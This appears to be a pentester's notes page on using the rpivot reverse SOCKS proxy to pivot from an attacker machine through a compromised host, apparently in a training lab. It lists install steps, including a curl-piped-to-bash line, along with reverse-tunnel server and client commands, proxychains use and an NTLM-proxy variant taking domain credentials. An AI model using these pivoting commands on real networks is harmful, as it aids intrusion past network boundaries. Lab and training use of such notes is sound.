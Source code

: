 -- -
reverse SOCKS proxy tool written in Python. Will facilitate the tunnel from attackbox to target pivot point, but you will still need proxychains.
#### Install python2.7
I'm guess this doesn't work w/ python3 so you need to make sure both your attackbox and the pivot host have python2.7 installed. 
###### via package manager
```bash
# whatever flavor of linux:
sudo apt-get install python2.7
sudo pacman -S python2.7
```
###### manual
```bash
curl https://pyenv.run | bash
echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.bashrc
echo 'command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.bashrc
echo 'eval "$(pyenv init -)"' >> ~/.bashrc
source ~/.bashrc
pyenv install 2.7
pyenv shell 2.7
```
#### Run server
Run the server script from your attackbox:
```bash
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```
#### Run Client
First, [[SCP|file transfer]] the entire rpivot directory over to the pivot host. Then run the client script on the pivot host:
```bash
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```
#### Proxychains
Make sure proxychains is configured to the proxy port you gave in the server.py command, and then just use proxychains:
```bash
proxychains firefox-esr 172.16.5.135:80
```
#### Connecting to a Web Server usint HTTP-Proxy & NTLM Auth
```bash
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```